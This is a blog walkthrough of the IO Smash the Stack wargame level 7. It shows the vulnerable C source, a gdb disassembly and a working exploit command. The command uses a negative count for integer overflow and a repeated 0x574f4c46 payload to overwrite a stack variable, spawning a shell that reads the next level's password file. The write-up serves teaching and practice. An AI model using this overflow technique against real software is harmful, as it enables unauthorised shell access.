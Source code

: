 +++
title = "IO Smash the stack level 07"
date = "2016-01-28T21:54:00-02:00"
publishdate = "2016-01-28"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-07"
project_url = "https://greyhat.dk/io-smashthestack-level-07"
type = "post"
description = "Walk-through"
image = "binary.png"
image_alt = "Binary pattern"
+++

## Level07

level7@io:/levels$ cat level07.c
```c
//written by bla
#include <stdio.h>
#include <string.h>
#include <unistd.h>



int main(int argc, char **argv)
{

        int count = atoi(argv[1]);
        int buf[10];

        if(count >= 10 )
                return 1;


        memcpy(buf, argv[2], count * sizeof(int));

        if(count == 0x574f4c46) {
		printf("WIN!\n");
                execl("/bin/sh", "sh" ,NULL);
	} else
                printf("Not today son\n");


        return 0;
}
```

Oki so count has to be 10 or less to invoke the memcpy but in order to get a shell count has to be 0x574f4c46 (1464814662). So we need to overflow the stack to overwrite count but since we can only specify a negative number we need to make an integer overflow.


```sh
level7@io:/levels$ gdb -q ./level07
Reading symbols from /levels/level07...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048414 <+0>:	push   %ebp
   0x08048415 <+1>:	mov    %esp,%ebp
   0x08048417 <+3>:	sub    $0x68,%esp
   0x0804841a <+6>:	and    $0xfffffff0,%esp
   0x0804841d <+9>:	mov    $0x0,%eax
   0x08048422 <+14>:	sub    %eax,%esp
   0x08048424 <+16>:	mov    0xc(%ebp),%eax
   0x08048427 <+19>:	add    $0x4,%eax
   0x0804842a <+22>:	mov    (%eax),%eax
   0x0804842c <+24>:	mov    %eax,(%esp)
   0x0804842f <+27>:	call   0x8048354 <atoi@plt>
   0x08048434 <+32>:	mov    %eax,-0xc(%ebp)
   0x08048437 <+35>:	cmpl   $0x9,-0xc(%ebp)
   0x0804843b <+39>:	jle    0x8048446 <main+50>
   0x0804843d <+41>:	movl   $0x1,-0x4c(%ebp)
   0x08048444 <+48>:	jmp    0x80484ad <main+153>
   0x08048446 <+50>:	mov    -0xc(%ebp),%eax
   0x08048449 <+53>:	shl    $0x2,%eax
   0x0804844c <+56>:	mov    %eax,0x8(%esp)
   0x08048450 <+60>:	mov    0xc(%ebp),%eax
   0x08048453 <+63>:	add    $0x8,%eax
   0x08048456 <+66>:	mov    (%eax),%eax
   0x08048458 <+68>:	mov    %eax,0x4(%esp)
   0x0804845c <+72>:	lea    -0x48(%ebp),%eax    <--- load buf
   0x0804845f <+75>:	mov    %eax,(%esp)
   0x08048462 <+78>:	call   0x8048334 <memcpy@plt>
   0x08048467 <+83>:	cmpl   $0x574f4c46,-0xc(%ebp)
   0x0804846e <+90>:	jne    0x804849a <main+134>
   0x08048470 <+92>:	movl   $0x8048584,(%esp)
   0x08048477 <+99>:	call   0x8048344 <printf@plt>
   0x0804847c <+104>:	movl   $0x0,0x8(%esp)
   0x08048484 <+112>:	movl   $0x804858a,0x4(%esp)
   0x0804848c <+120>:	movl   $0x804858d,(%esp)
   0x08048493 <+127>:	call   0x8048324 <execl@plt>
   0x08048498 <+132>:	jmp    0x80484a6 <main+146>
   0x0804849a <+134>:	movl   $0x8048595,(%esp)
   0x080484a1 <+141>:	call   0x8048344 <printf@plt>
   0x080484a6 <+146>:	movl   $0x0,-0x4c(%ebp)
   0x080484ad <+153>:	mov    -0x4c(%ebp),%eax
   0x080484b0 <+156>:	leave
   0x080484b1 <+157>:	ret
End of assembler dump.
(gdb) !echo "ibase=16;48"|bc
72
```

Ok we need to find an integer overflow that gives us a buffer of 72 or more. For this I wrote a small test in C. Remember that

Maximum int 2^32

Minimum int -2^31

and I assume that the size of int is 4 bytes

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
 int a = atoi(argv[1]);

 printf("%d and len %d\n", a, a*sizeof(int));

 return 0;
}
```

```sh
kgn@kali:~$ ./intoverflow $(echo "(-2^31)+(72/4)"|bc)
-2147483630 and len 72
```

Back to GDB

```sh
(gdb) r $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
Starting program: /levels/level07 $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
WIN!
process 1800 is executing new program: /bin/bash
sh-4.2$
```

Outside GDB

```sh
level7@io:/levels$ ./level07 $(echo "(-2^31)+(72/4)"|bc) $(python -c 'print "\x46\x4c\x4f\x57" * (72/4)')
WIN!
sh-4.2$ cat /home/level8/.pass
XXXXXXXXXXXXXXXX
```

